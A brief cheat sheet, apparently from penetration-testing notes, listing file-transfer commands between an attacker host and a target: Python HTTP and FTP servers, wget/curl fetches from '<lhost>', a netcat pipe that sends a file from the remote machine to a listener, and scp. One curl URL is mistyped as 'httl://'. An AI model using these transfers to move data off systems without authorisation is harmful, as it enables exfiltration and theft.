 ## File Transfer

Web Server:
```
python2 -m SimpleHTTPServer 8000
python3 -m http.server 8000

wget http://<lhost>:8000/<file>
curl httl://<lhost>:8000/<file> -O
```

FTP Server:
```
python -m pyftpdlib -p 21 -w
```

Netcat
```
nc -nvlp <lport> > file         # local machine
nc -vn <lhost> <lport> < file   # remote machine
```

SCP
```
scp <user>@<rhost>:/path
```
